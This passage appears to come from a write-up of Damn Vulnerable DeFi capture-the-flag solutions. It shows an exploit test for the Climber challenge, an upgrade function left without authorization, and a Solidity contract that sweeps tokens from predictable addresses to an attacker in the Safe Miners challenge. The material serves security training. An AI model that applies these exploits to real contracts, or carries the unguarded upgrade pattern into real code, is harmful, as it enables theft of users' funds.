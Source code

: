 ```solidity
    // Required function for inheriting from UUPSUpgradeable.
    function _authorizeUpgrade(address newImplementation) internal override {}
}
```

Solution (challenge): 

```javascript
it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        const exploitContract = await ethers.getContractFactory('ClimberExploit', deployer)
        const exploit = await exploitContract.deploy(
            this.token.address,
            this.timelock.address,
            this.vault.address,
            attacker.address
        )

        await exploit.connect(attacker).executeProposal()
    });
```

## 13. Safe Miners

This challenge has a lot of guess work. Check this out to understand better: [Damn Vulnerable DeFi V2 - #13 Junior miners • Ventral Digital](https://ventral.digital/posts/2022/7/2/damn-vulnerable-defi-v2-13-junior-miners).

Solution (contract):

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract SafeMinersExploit {
    constructor(
        address attacker,
        IERC20 token,
        uint256 nonces
    ) {
        for (uint256 idx; idx < nonces; idx++) {
            new TokenSweeper(attacker, token);
        }
    }
}

contract TokenSweeper {
    constructor(address attacker, IERC20 token) {
        uint256 balance = token.balanceOf(address(this));
        if (balance > 0) {
            token.transfer(attacker, balance);
        }
    }
}
```
